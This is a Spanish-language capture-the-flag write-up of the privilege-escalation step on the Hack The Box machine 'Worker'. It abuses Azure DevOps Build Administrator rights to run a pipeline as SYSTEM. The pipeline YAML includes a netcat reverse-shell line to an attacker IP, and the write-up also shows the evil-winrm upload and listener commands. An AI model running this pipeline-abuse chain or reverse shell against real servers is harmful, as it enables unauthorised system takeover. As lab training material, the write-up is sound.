## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami /priv
```

Aqui vemos que tenemos menos privilegios que el usuario `iis apppoo\defaultapppool`. Pero si volvemos a la web
`http://devops.worker.htb` y que nos connectamos con este usuario, vemos que hay un proyecto.

Si pinchamos a configuration del proyecto y le damos a seguridad, vemos que el usuario es parte de grupo `Build Administrator`. Este
grupo permite enviar commandos como **nt authority system**.

1. Checkeamos el agente a utilizar

    ```{r, echo = FALSE, fig.cap="Azure DevOps agente Setup", out.width="80%"}
    knitr::include_graphics("images/Worker-grupos-agentes.png")
    ```

1. Creamos una nueva canalizacion

    ```{r, echo = FALSE, fig.cap="Azure DevOps nueva canalizacion", out.width="80%"}
    knitr::include_graphics("images/Worker-nueva-canalizacion.png")
    ```

1. Codigo en Azure repo

    ```{r, echo = FALSE, fig.cap="Azure DevOps nueva canalizacion", out.width="80%"}
    knitr::include_graphics("images/Worker-azur-repo.png")
    ```

1. Seleccionamos el proyecto existente
1. Configuramos la canalizacion con Canalizacion inicial

    ```{r, echo = FALSE, fig.cap="Azure DevOps canalizacion inicial", out.width="80%"}
    knitr::include_graphics("images/Worker-Canalizacion-inicial.png")
    ```

1. Creamos el script pipeline para hacer un whoami

    ```{r, echo = FALSE, fig.cap="Azure DevOps pipeline whoami", out.width="80%"}
    knitr::include_graphics("images/Worker-whoami-pipeline.png")
    ```

1. Guardamos en una nueva rama y ejecutamos

    ```{r, echo = FALSE, fig.cap="Azure DevOps guardar pipeline", out.width="80%"}
    knitr::include_graphics("images/Worker-guardar-ejecutar.png")
    ```

1. Miramos el resultado 

    ```{r, echo = FALSE, fig.cap="Azure DevOps whoami", out.width="80%"}
    knitr::include_graphics("images/Worker-mulit-line-script.png")
    ```

Aqui comprobamos que script esta lanzado por `nt authority\system`

1. Uploadeamos un netcat a la maquina victima
    
    ```bash
    locate nc.exe
    cp /usr/share/sqlninja/apps/nc.exe .
    ```

1. Desde evil-winrm, uploadeamos el fichero

    ```bash
    cd C:\Windows\Temp
    mkdir Privesc
    cd  Privesc
    upload nc.exe
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Editamos el pipeline script

    ```yaml
    trigger:
    - master

    pool: 'Setup'

    steps:
    - script: echo Hello, world!
      displayName 'Run a one-line script'

    - script: C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.10 443
      displayName: 'Run a multi-line script'
    ```

1. Le damos a ejecutar

```bash
whoami

nt authority\system
```

Ya podemos leer la flag.
